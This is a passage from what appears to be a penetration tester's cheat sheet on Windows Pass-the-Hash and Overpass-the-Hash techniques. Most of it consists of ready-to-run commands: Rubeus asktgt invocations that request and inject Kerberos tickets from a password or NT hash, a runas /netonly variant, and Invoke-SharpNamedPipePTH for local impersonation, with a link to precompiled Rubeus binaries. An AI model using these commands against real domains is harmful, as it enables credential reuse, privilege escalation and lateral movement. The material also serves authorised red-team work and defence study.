 * [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
* [https://github.com/GhostPack/Rubeus#example-over-pass-the-hash](https://github.com/GhostPack/Rubeus#example-over-pass-the-hash)
* [https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)

Create a sacrificial process ([Logon type 9](https://ss64.com/nt/syntax-logon-types.html)), legitimately ask Kerberos for TGT, import it and interact with the process (Overpass-the-Hash):

```
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:dc1 /user:snovvcrash /password:Passw0rd! /createnetonly:C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /show
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:dc1 /user:snovvcrash /rc4:fc525c9683e8fe067095ba2ddc971889 /createnetonly:C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /show
```

Create a new process with dummy creds ([Logon type 9](https://ss64.com/nt/syntax-logon-types.html)) manually, then use Rubeus with user's NT hash to ask for a TGT and import it (Overpass-the-Hash):

```
Cmd > runas /netonly /user:megacorp.local\snovvcrash cmd
Enter the password for megacorp.local\snovvcrash: dummy_Passw0rd!
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:dc1 /user:snovvcrash /rc4:fc525c9683e8fe067095ba2ddc971889 /ptt
```



### NamedPipePTH

* [https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/](https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/)
* [https://github.com/S3cur3Th1sSh1t/NamedPipePTH](https://github.com/S3cur3Th1sSh1t/NamedPipePTH)
* [https://github.com/S3cur3Th1sSh1t/SharpNamedPipePTH](https://github.com/S3cur3Th1sSh1t/SharpNamedPipePTH)

Impersonate a user with Pass-the-Hash for **local** actions (because network authentication does not work with `Impersonation Token`, only with `Delegation Token`):

```
PS > . .\Invoke-SharpNamedPipePTH.ps1
PS > Invoke-SharpNamedPipePTH -C "domain:megacorp.local username:snovvcrash hash:fc525c9683e8fe067095ba2ddc971889 binary:C:\Windows\System32\cmd.exe"
```

Can be used for authenticating in SQL Server management tools (`%PROGRAMFILES(X86)%\Ssms.exe\Microsoft SQL Server Management Studio 18\Common7\IDE\Ssms.exe`) and accessing DBs with SQL admin hash, for example.




## PtH Notes


#### User Account Control

* [https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/](https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/)
